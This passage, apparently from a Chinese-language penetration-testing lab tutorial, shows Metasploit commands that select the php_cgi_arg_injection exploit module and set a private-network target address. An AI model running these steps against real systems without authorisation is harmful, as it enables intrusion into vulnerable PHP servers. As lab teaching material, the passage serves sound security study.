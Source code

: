 
```
# 由 search 找到的攻击模块
# 通过 use 命令使用该模块

use exploit/multi/http/php_cgi_arg_injection

# 并由 show options 命令，查看模块所需选项
show options
```

![图片描述](../imgs/1479963740362.png-wm.png)

接着设置渗透目标靶机地址参数：

```
# 设置目标靶机 IP 地址参数
set RHOST 192.168.122.102
```

![图片描述](../imgs/1479964093422.png-wm.png)
